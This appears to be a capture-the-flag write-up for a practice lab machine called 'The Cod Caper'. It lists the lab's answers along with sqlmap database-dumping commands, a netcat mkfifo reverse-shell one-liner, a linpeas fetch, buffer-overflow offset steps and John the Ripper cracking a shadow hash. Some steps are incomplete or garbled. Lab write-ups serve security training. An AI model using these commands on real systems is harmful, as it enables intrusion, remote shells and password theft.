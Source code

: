 # Machine NAME : The Cod Caper
# Machine IP : 10.10.110.116

***TASK 1 : Intro***

***TASK 2 : Host Enumeration***
1. How many ports are open on the target machine? : 2 <br>
2. What is the http-title of the web server? : Apache2 Ubuntu Default Page: It works <br>
3. What version is the ssh service? : OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 <br>
4. What is the version of the web server? : Apache/2.4.18 <br>

***TASK 3: Web Enumeration***
1. What is the name of the important file on the server? 
: /administrator.php <br>

***TASK 4: Web Exploitation***
1.sqlmap -u {IP} --data "username=&password="  --form 
2.sqlmap -u {IP} --data "username=&password=" --data 'username=&password='-a  
 &nbsp;2.1 do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
 &nbsp;2.2. do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
 &nbsp;2.3. what dictionary do you want to use : 1
  &nbsp;&nbsp; [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
  &nbsp;&nbsp; [2] custom dictionary file
  &nbsp;&nbsp; [3] file with list of dictionary files
  &nbsp; 2.4. do you want to use common password suffixes? (slow!) [y/N] N
3.sqlmap -u http://{IP}/administrator.php --data 'username=&password=' --dbs
4.sqlmap -u http://10.10.223.60/administrator.php --data "username=&password=" -D users --tables
5.sqlmap -u http://10.10.223.60/administrator.php --data "username=&password=" -D users -T users --dump

1.What is the admin username? : pingudad
2.What is the admin password? : secretpass
3.How many forms of SQLI is the form vulnerable to? 3


***TASK 5: Command Execution***
1.How many files are in the current directory? 3
2.Do I still have an account : yes

3 What is my ssh password? :pinguapingu
&nbsp; 3.1 reverse shell command
       - Listen Command : nc -lvnp 4444
       - reverse shell connect command : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
       - I thinked for find ssh password
       - 1st See that log file ...if the "/var" directory?
       - ssh password is

***TASK 6: LinEnum***
1. What is the interesting path of the interesting suid file? : /opt/secret/root
- python3 -m http.server 780
- wget http://{IP}/linpeas.sh
- ./linpeas.sh 

***TASK 7: pwndbg***
***TASK 8: Binary-Exploitation : Manually***
***TASK 9: Binary-Exploitation : The pwntools way***
1. cyclic 50
2. echo "cyclic 50" | ./root2
3. check the hex value : dmesg
4. python2 ./cylic -l bytes

***Task 10: Finishing the job***
1.papa crack passwd file using john the ripper
└──╼ #john --wordlist=/usr/share/wordlists/rockyou.txt shadow
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
postman          (papa)
1g 0:00:00:00 DONE (2020-05-27 17:22) 1.886g/s 40754p/s 40754c/s 40754C/s spices..playball
Use the "--show" option to display all of the cracked passwords reliably
Session completed

2.root crack passwd file using john the ripper


